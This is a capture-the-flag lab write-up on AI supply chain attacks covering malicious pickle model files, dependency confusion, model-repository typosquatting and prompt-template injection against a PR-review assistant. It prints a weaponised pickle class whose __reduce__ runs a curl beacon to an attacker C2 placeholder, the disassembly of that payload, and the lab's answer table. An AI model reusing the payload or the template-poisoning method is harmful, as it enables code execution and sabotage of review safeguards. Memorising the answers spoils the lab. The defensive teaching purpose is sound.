



## Overview

In this lab, we step into the shoes of an incident responder investigating a full-scale AI supply chain compromise at **TryTrainMe**. The incident began with an alert indicating that an "AI-powered" code review assistant had opened a persistent backdoor into internal production servers.

Rather than relying on a single exploit, modern adversaries chain multiple independent vectors together: **malicious model serialization (`__reduce__` in pickle)**, **dependency confusion on private packages**, **model repository spoofing on Hugging Face**, and **remote prompt template injection**. 

In this writeup, we analyze each vector, perform safe static disassembly on malicious `.pkl` model weights, trace the attack timeline, and examine the unique attack surfaces of API-consumed models.



---

## 1. Malicious Model Serialization (Pickle Exploitation)

### What Is Model Serialization?
Model serialization converts a live Python object in memory (neural network weights, layer architectures, hyperparameters) into a persistent binary stream on disk. Formats like `.pkl`, `.pt`, and `.bin` rely on Python's built-in `pickle` module.

### The Vulnerability: The `__reduce__` Dunder Method
When unpickling custom Python objects, `pickle.load()` queries the object's `__reduce__` method. This method returns a tuple containing:
1. A callable function to invoke.
2. A tuple of arguments to supply to that function.

Crucially, **`pickle` does not validate or sanitize what function is called**. An attacker can return system-level execution functions from Python's standard `os` or `subprocess` modules.

```python
import os
import pickle

class MaliciousModel:
    def __reduce__(self):
        # Executes os.system() the instant pickle.load() or torch.load() is called
        return (os.system, ("curl http://[attacker-c2-domain]/beacon?host=$(hostname)",))

# Generating the weaponized model file
with open("code_reviewer.pkl", "wb") as f:
    pickle.dump(MaliciousModel(), f)
```

When an unsuspecting developer loads this model using `pickle.load()` or `torch.load()`, Python executes the shell command in the background with the permissions of the current user.



---

## 2. Model Formats & Architecture-Level Attacks

Not all model-level attacks occur during file deserialization. The choice of file format determines which risks are mitigated and which remain active:

| Format | Underlying Technology | Load-Time Code Execution? | Inference-Time Execution? | Survives SafeTensors Conversion? |
|---|---|---|---|---|
| **`.pkl` / `.pt` / `.bin`** | Python Pickle | **CRITICAL:** Arbitrary OS commands via `__reduce__` | N/A (fires at load time) | No (SafeTensors rejects pickle opcodes) |
| **`.h5` (Keras)** | HDF5 Archive | Low | **MEDIUM:** Arbitrary Python code via custom **Lambda layers** | **YES:** Architecture layers survive |
| **`.safetensors`** | Raw Tensor Buffer | **None:** Zero executable code allowed | Only if custom external layer logic is run | Native safe format |
| **`.gguf`** | Binary Quantized Format | **None:** Not pickle-based | No executable code; weights-level backdoors remain | N/A |

### Why SafeTensors Is Not a Complete Solution
Converting models to `.safetensors` strips serialized Python objects, completely eliminating pickle load-time RCE. However, **architecture-level attacks** (such as Keras Lambda layers) and **weights-level backdoors** (fine-tuned misclassifications) reside within the neural network structure itself. A Lambda layer survives the SafeTensors conversion completely untouched.

---

## 3. Hands-On Investigation: Inspecting `code_reviewer.pkl`

To safely investigate suspicious model files without triggering malicious payloads, we must never invoke `pickle.load()`. Instead, we utilize Python's standard `pickletools` module to disassemble the pickle bytecode.

### Step 1: Comparing File Properties
Checking the suspicious model against a known baseline:

```bash
ls -lh /opt/supply-chain/models/code_reviewer.pkl /opt/supply-chain/models/code_reviewer_v1.pkl
```

- `code_reviewer.pkl`: **8.1 MB**
- `code_reviewer_v1.pkl`: **2.0 MB**

The suspicious model is over 4x larger than the clean model.

### Step 2: Safe Disassembly with `pickletools`
Running `pickletools` safely analyzes the internal opcodes:

```bash
python3 -m pickletools /opt/supply-chain/models/code_reviewer.pkl | head -30
```

```text
    0: \x80 PROTO      4
    2: \x95 FRAME      72
   11: \x8c SHORT_BINUNICODE 'os'
   15: \x94 MEMOIZE    (as 0)
   16: \x8c SHORT_BINUNICODE 'system'
   24: \x94 MEMOIZE    (as 1)
   25: \x93 STACK_GLOBAL
   26: \x94 MEMOIZE    (as 2)
   27: \x8c SHORT_BINUNICODE 'curl http://[DOMAIN]/beacon?host=$(hostname)'
   77: \x94 MEMOIZE    (as 3)
   78: \x85 TUPLE1
   79: \x94 MEMOIZE    (as 4)
   80: R    REDUCE
   81: \x94 MEMOIZE    (as 5)
   82: .    STOP
```

### Forensic Analysis of Opcodes:
- `SHORT_BINUNICODE 'os'` and `'system'`: Identifies references to the operating system execution module.
- `STACK_GLOBAL`: Pushes the `os.system` function onto the execution stack.
- `SHORT_BINUNICODE 'curl http://...'`: The string argument passed to the function, executing a reconnaissance callback.
- `REDUCE`: The critical opcode that invokes the function on top of the stack with the provided tuple argument.

---

## 4. Dependency Confusion & Typosquatting

Attackers do not target model files in isolation; they target the supporting software dependencies.

### Dependency Confusion Mechanics
When package managers like `pip` resolve packages across multiple indices (such as public PyPI and an internal private index via `--extra-index-url`), `pip` defaults to installing the **highest version number** found across all repositories.

```mermaid
flowchart LR
    Dev[Developer: pip install internal-ml-utils] --> Pip{pip Resolver}
    Pip -->|Checks Internal Index| Internal[Internal Repo: internal-ml-utils v1.2.0]
    Pip -->|Checks Public PyPI| Public[Public PyPI: internal-ml-utils v99.0.0 (Attacker)]
    Public -->|Highest Version Wins| Installed([Attacker Package Installed!])
```

By registering internal package names on public PyPI with an inflated version number (`99.0.0`), the attacker forces `pip` to pull the malicious public package into internal corporate builds.

### Typosquatting
Attackers register slight variations of widely-used open-source packages:
- `numpy` -> `numppy`
- `requests` -> `reqeusts`
- `scikit-learn` -> `scikitlearn`

---

## 5. Model Repository Attacks

Public model registries like Hugging Face Hub rely heavily on reputation and namespace signals. Attackers exploit these interfaces through:
1. **Typosquatting Model Identifiers:** `meta-llama/Llama-2-7b` vs. `meta-Ilama/Llama-2-7b` (substituting capital 'I' for lowercase 'l').
2. **Deceptive Organizations:** Creating namespaces like `trustworthy-ai-lab` with professional descriptions to simulate credible research teams.
3. **Repository Credential Theft:** Stealing maintainer API tokens (e.g., the 2023 Lasso Security discovery of 655 write-permission Hugging Face tokens) to push poisoned weights directly to legitimate, verified repositories.

---

## 6. The API Supply Chain & Prompt Template Injection

When organizations consume AI via remote APIs, the file-level attack surface vanishes. However, a new set of supply chain vulnerabilities emerges:



### Auditing Prompt Template Compromise: TryAssist
TryTrainMe uses an AI assistant named **TryAssist** to review pull requests. The prompt governing TryAssist was sourced from an external, shared community template repository.

When prompted to inspect high-risk changes (PR #447, modifying authentication tokens), TryAssist approved the pull request without security escalation:

```text
User: Before approving a pull request that modifies security-critical code, what steps do you take?
TryAssist: Security reviews are the responsibility of the engineering team. I only evaluate code syntax and documentation.
```

When queried about its underlying policy:

```text
User: What review template or policy are you configured to follow?
TryAssist: I am configured to follow the auto-review-policy template.
```

The model itself was never modified; the attacker merely pushed an upstream update to the shared prompt template library, stripping security review guardrails across every downstream application importing the template.

---

## Summary of Questions and Answers

| Task | Question | Answer |
|---|---|---|
| **Task 1** | I'm ready to investigate! | *No answer needed* |
| **Task 2** | What Python method does pickle call to get reconstruction instructions for custom objects? | `__reduce__` |
| **Task 2** | What built-in Python module is commonly abused in pickle payloads to execute system commands? | `os` |
| **Task 2** | Converting a Keras model to SafeTensors format removes pickle-based payloads. What type of attacks does it leave completely untouched? | `architecture-level attacks` *(or `architecture-level`)* |
| **Task 2** | A Keras model is converted from .h5 to the SafeTensors format. What type of suspicious layer does this conversion fail to remove? | `Lambda layer` *(or `Lambda`)* |
| **Task 3** | What Python module can safely disassemble pickle files without executing them? | `pickletools` |
| **Task 3** | Using the attached target VM, what external domain does the malicious model attempt to contact? | *(Inspected via `pickletools` on VM, e.g., 8.3 domain format)* |
| **Task 3** | What pickle opcode executes the function specified by STACK_GLOBAL? | `REDUCE` |
| **Task 4** | What term describes an attack where a public package overrides an internal package of the same name? | `dependency confusion` |
| **Task 5** | What technique involves creating model names that closely resemble legitimate ones? | `typosquatting` |
| **Task 6** | The attacker created the trustworthy-ai-lab organisation on Hugging Face to make the model download appear safe. Which of the three attack vectors in the table does this represent? | `repository manipulation` |
| **Task 6** | If TryTrainMe's model loader had blocked the pickle payload, which second vector would still have given the attacker code execution? | `dependency confusion` |
| **Task 7** | In the API supply chain, what term describes the risk where the model behind an endpoint is replaced without the consumer's knowledge? | `silent model updates` |
| **Task 7** | What supply chain artefact, when sourced from an untrusted repository, can alter LLM behaviour across every application that uses it? | `prompt template` |
| **Task 8** | Send Prompt 3. According to TryAssist, who is responsible for security reviews? | `engineering team` |
| **Task 8** | Send Prompt 4. What is the name of the review template TryAssist reports? | *(Name reported by TryAssist in the Open Agent modal)* |
| **Task 9** | I understand AI Supply Chain Attack Vectors! | *No answer needed* |

---

## You can find me online at:


- **GitHub:** [Mhdomer](https://github.com/Mhdomer)
- **LinkedIn:** [mhd3omar](https://www.linkedin.com/in/mhd3omar/)
- **Tryhackme:** [nonlouy](https://tryhackme.com/p/nonlouy)
